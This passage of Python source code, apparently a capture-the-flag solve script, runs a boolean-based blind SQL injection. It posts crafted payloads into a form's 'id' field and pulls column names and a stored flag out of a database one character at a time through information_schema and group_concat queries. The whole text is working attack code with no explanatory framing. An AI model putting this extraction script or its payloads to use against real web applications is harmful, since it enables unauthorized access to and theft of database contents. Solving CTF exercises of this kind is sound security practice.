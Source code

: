 ```python
    for i in range(20):
        for j in s:
            payload='1" && (select substr((select group_concat(column_name) from information_schema.columns where table_name in ("'+table+'")),'+str(i+1)+',1) in ("'+str(j)+'")) -- '

            text = getData(url,payload)
            if 'find' in text:
                columns += j
                print columns
                break
 
    print '[*] Columns names is : ' + columns
    column = columns.split(',')[0]
    # getFlag(table, column)

def getFlag(db,table,column):
    flag = ''
    for i in range(50):
        for j in s:
            payload='1" && (select substr((select group_concat('+column+') from '+db+'.'+table+'),'+str(i+1)+',1) in ("'+str(j)+'")) -- '

            text = getData(url,payload)
            if 'find' in text:
                flag += j
                print flag
                break
    print '[*] The flag is: ' + flag


def getData(url,payload):
    data={
        'id':payload,
        'Submit':'Search'
    }
    headers={
    'User-Agent':'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded'
    }
    r = requests.post(url, data=data,headers=headers)
    return r.text


def main():
    # getDatabase()
    # getTables("useless")
    # getColumns("zjctf")
    getFlag("useless","zjctf","content")

if __name__ == '__main__':
    main()
```
